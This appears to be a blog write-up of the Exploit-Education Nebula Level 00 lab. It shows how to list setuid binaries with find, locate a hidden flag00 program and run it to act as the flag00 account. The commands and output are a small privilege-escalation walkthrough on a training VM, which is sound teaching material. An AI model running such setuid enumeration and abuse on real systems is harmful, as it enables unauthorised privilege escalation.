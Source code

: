 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 00"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### Exploit Education Nebula Level 0

## Challenge
This level requires you to find a Set User ID program that will run as the `flag00` account.You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Alternatively, look at the find man page.  

To access this level, log in as `level00` with the password of `level00`.

## Solution
We have to use find to find a file with setuser id bit set
    
    
```
level00@nebula:~$ find / -perm -4000 2>/dev/null | less 
```
        
lets see what the parameters indicate
        
```
/               it asks find to look for files in root directory
-perm -4000     its is used to display all files with the setuserid set
2>/dev/null     gets rid of all error messages
```

```
level00@nebula:~$ find / -perm -4000 2>/dev/null | less
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/pis
/bin/ping6
/bin/su
/bin/umount
/sbin/mount.ecryptfs_private
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
```

we can see a file named `flag00`. lets investigate 

```
level00@nebula:/$ cd /bin/.../
level00@nebula:/bin/...$ ls -la
total 8
drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00
```

we can see that the `setuserid` bit is set for `flag00`. lets run it
```
level00@nebula:/bin/...$ ./flag00
Congrats, now run getflag to get your flag!
flag00@nebula:/bin/...$ getflag
You have successfully executed getflag on a target account
```

### Solved!